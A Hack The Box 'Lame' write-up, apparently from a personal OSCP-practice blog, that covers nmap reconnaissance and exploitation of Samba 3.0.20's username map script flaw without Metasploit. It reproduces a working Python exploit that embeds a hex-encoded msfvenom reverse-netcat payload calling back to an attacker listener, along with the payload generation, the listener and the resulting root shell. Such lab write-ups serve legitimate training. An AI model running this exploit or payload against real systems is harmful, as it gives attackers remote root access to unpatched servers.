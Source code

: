 ```yaml
---
title: Hack The Box - Lame (Without Metasploit)
date: 2021-01-08 17:56:00 +0800
categories: [hackthebox]
tags: [linux, samba]
---
```


After completing all 66 boxes in the PWK labs, I decided to move on to TJNull's OSCP list of HackTheBoxes which are said to be similar to the ones in the exams. Fortunately the 12 month VIP Lab code which I won from some event was still usable :) 

![](/assets/images/lame.png){:height="414px" width="615px"}

# Configuration

The operating system that I will be using to tackle this machine is a Kali Linux VM.

What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.

```bash
$ echo "10.10.10.3 lame" | sudo tee -a /etc/hosts
```

# Reconnaissance

```bash
$ nmap -sT -sV -sC -Pn lame                      
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 04:07 EST
Nmap scan report for lame (10.10.10.3)
Host is up (0.014s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h31m20s, deviation: 3h32m08s, median: 1m19s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-01-08T04:08:43-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.60 seconds
```

# Enumeration

## Port 21 `vsftpd 2.3.4`

Only a few ports to interact with, which is great! Seeing that `vsftpd 2.3.4` is running on port `21`, I instantly remembered of the funny backdoor where sending a `:)` in the username would result in a shell listening on port `6200`. I used `nmap`'s `ftp-vsftpd-backdoor` script and it revealed that the backdoor was no longer there :/

```bash
$ nmap -Pn --script ftp-vsftpd-backdoor -p 21 lame                   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 04:41 EST
Nmap scan report for lame (10.10.10.3)
Host is up (0.015s latency).

PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 21.22 seconds
```

## Port 445 `Samba 3.0.20-Debian`

```bash
$ searchsploit samba 3.0.20
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                           | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) | unix/remote/16320.rb
...
```

Using `searchsploit`, we see that there is a `Metasploit` module that targets this version of `samba`. However, I will be attempting the non-Metasploit approach by using this [script](https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851) that I found online.

# Exploitation

```python
#!/usr/bin/python

from smb.SMBConnection import SMBConnection
import random, string
from smb import smb_structs
smb_structs.SUPPORT_SMB2 = False
import sys


# Just a python version of a very simple Samba exploit. 
# It doesn't have to be pretty because the shellcode is executed
# in the username field. 

# Based off this Metasploit module - https://www.exploit-db.com/exploits/16320/ 

# Configured SMB connection options with info from here:
# https://pythonhosted.org/pysmb/api/smb_SMBConnection.html

# Use the commandline argument as the target: 
if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()


# Shellcode: 
# msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.0.35 LPORT=9999 -f python

buf =  ""
buf += "\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x6b"
buf += "\x62\x67\x61\x66\x3b\x20\x6e\x63\x20\x31\x30\x2e\x30"
buf += "\x2e\x30\x2e\x33\x35\x20\x39\x39\x39\x39\x20\x30\x3c"
buf += "\x2f\x74\x6d\x70\x2f\x6b\x62\x67\x61\x66\x20\x7c\x20"
buf += "\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f\x74\x6d\x70"
buf += "\x2f\x6b\x62\x67\x61\x66\x20\x32\x3e\x26\x31\x3b\x20"
buf += "\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x6b\x62\x67\x61\x66"
buf += "\x20"


username = "/=`nohup " + buf + "`"
password = ""
conn = SMBConnection(username, password, "SOMEBODYHACKINGYOU" , "METASPLOITABLE", use_ntlm_v2 = False)
assert conn.connect(sys.argv[1], 445)
```

Before running this script, we will need to install the `pysmb` module, which the script requires.

```bash
$ sudo pip2 install pysmb
```

Next up, as the script says, we will need to generate our shellcode using `msfvenom`.

```bash
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=9999 -f python
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 92 bytes
Final size of python file: 467 bytes
buf =  b""
buf += b"\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x61"
buf += b"\x72\x74\x6d\x6b\x3b\x20\x6e\x63\x20\x31\x30\x2e\x31"
buf += b"\x30\x2e\x31\x34\x2e\x37\x20\x39\x39\x39\x39\x20\x30"
buf += b"\x3c\x2f\x74\x6d\x70\x2f\x61\x72\x74\x6d\x6b\x20\x7c"
buf += b"\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f\x74\x6d"
buf += b"\x70\x2f\x61\x72\x74\x6d\x6b\x20\x32\x3e\x26\x31\x3b"
buf += b"\x20\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x61\x72\x74\x6d"
buf += b"\x6b"
```

After replacing the shellcode in the script with one we generated, we can start our `nc` listener on port `9999` and run the script.

```bash
$ python samba_usermap_exploit.py lame
```

```bash
$ sudo rlwrap nc -vlnp 9999  
listening on [any] 9999 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.3] 49921
whoami
root
```

</td>
</tr>
</table>

Nice, we instantly got a shell as `root` without having to perform any privilege escalation! Lets try to get a nicer prompt

```bash
python -c "import pty; pty.spawn('/bin/bash')"
root@lame:/root#
```

# user.txt

The user flag is located at `/home/makis`.

```bash
root@lame:/home/makis# cat cat user.txt
7b12XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# root.txt

The root flag is located at `/root` as always.

```bash
root@lame:/root# cat root.txt
a608XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !